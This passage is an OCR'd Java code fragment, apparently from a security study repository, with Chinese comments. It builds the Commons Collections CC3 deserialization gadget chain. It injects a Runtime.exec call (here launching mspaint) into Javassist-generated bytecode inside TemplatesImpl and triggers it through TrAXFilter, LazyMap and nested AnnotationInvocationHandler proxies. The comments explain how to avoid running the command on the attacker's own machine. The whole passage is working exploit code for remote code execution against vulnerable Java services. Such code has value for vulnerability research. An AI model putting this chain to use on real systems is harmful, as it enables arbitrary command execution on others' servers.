	        CtClass placeholder = classPool.get(CC3.Placeholder.class.getName());
	        placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName()));
	        // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码
	        placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");");
	        placeholder.setName("EvalClass");
	        // 得到恶意类的字节码
	        byte[] evalByte = placeholder.toBytecode();
	
	        // 实例化TemplatesImpl对象,并将恶意字节码植入
	        TemplatesImpl templates = new TemplatesImpl();
	        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
	        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
	        bytecodes.setAccessible(true);
	        bytecodes.set(templates,new byte[][]{evalByte});
	        Field name = templatesClass.getDeclaredField("_name");
	        name.setAccessible(true);
	        name.set(templates,"p1n93r");
	
	
	        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
	                new ConstantTransformer(1)
	        });
	
	        // 真正的RCE执行链，调用TrAXFilter构造器时，会调用TemplatesImpl#newTransformer()，之后就是和CC2一样了
	        Transformer[] trueTransformer = {
	                new ConstantTransformer(TrAXFilter.class),
	                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
	        };
	
	        // 仍旧使用LazyMap即可
	        HashMap<Object, Object> hashMap = new HashMap<>();
	        Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);
	
	        // 创建AnnotationInvocationHandler对象，封装lazyMap
	        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
	        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
	        constructor.setAccessible(true);
	        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, evalMap);
	
	        // 得到代理Map
	        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
	
	        // 再次创建AnnotationInvocationHandler对象，封装proxyMap
	        InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);
	
	        // 最后再将真正的transformer chain传入,防止反序列化之前在攻击机中就执行了命令
	        Class<? extends Transformer> chainClass = chainedTransformer.getClass();
	        Field iTransformers = chainClass.getDeclaredField("iTransformers");
	        iTransformers.setAccessible(true);
	        iTransformers.set(chainedTransformer,trueTransformer);
	        return res;
	    }
	